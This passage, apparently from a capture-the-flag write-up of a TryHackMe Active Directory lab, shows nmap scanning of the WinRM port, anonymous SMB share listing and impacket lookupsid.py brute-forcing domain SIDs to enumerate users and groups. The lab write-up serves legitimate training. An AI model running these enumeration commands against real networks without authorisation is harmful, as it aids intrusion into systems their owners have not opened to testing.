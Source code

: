 ┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/vulnetroasted]
└─$ nmap -sC -sV -Pn -p 5985 10.10.108.117
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-12 09:07 WAT
Nmap scan report for 10.10.108.117
Host is up (0.19s latency).

PORT     STATE SERVICE VERSION
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.99 seconds
```

I love checking the Winrm port it can be useful in future now let start with our enumeration on SMB.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/vulnetroasted]
└─$ smbclient -L //10.10.108.117/ -N  

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing
SMB1 disabled -- no workgroup available
```

Some shares we allow have access to `VulnNet-Business-Anonymous` and `VulnNet-Enterprise-Anonymous` but nah nothing is useful in the shares now let look at impacket `lookupsid.py` to enumerate for users.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/vulnetroasted]
└─$ lookupsid.py anonymous@10.10.108.117
Impacket v0.9.24.dev1+20210629.123513.142cacb6 - Copyright 2021 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 10.10.108.117
[*] StringBinding ncacn_np:10.10.108.117[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)